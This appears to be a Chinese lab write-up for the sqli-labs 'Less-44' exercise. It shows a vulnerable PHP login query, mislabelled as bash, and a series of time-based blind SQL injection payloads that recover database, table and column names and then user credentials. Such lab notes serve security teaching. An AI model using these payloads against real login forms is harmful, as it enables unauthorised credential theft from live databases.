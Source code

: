 ```yaml
---
title: less44
url: https://www.yuque.com/u29002979/ep2zrx/age78kwqzq34ywiw
---
```


```bash
$username = mysqli_real_escape_string($con1, $_POST["login_user"]);
$password = $_POST["login_password"];

$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
if (@mysqli_multi_query($con1, $sql))
```

测试发现没有了报错回显，那就只能借助盲注的方式进行注入了

<a name="Ehstz"></a>

# 时间盲注

<a name="jCJOl"></a>

## 拆解数据库名称长度

`-1' or if(length(database())=8,sleep(5),0)#` <a name="kObnI"></a>

## 猜解数据库名称

`-1' or if(ascii(mid(database(),1,1))<=135,sleep(5),0)--+` <a name="bZUJF"></a>

## 猜解数据表名称长度

`-1' or if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))=29,sleep(5),0)#` <a name="kSZVm"></a>

## 猜解数据表名称

`-1' or if(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1)='e',sleep(5),0)--+`

<a name="j47RV"></a>

## 猜解字段名称长度

`-1' or if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))=20,sleep(5),0)#` <a name="qszZ6"></a>

## 猜解字段名称

`-1' or if(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1)='i',sleep(5),0)--+` <a name="aRdmK"></a>

## 猜解字段内容

`-1' or if(mid((select group_concat(username,0x7e,password) from users),1,1)='D',sleep(5),0)--+`
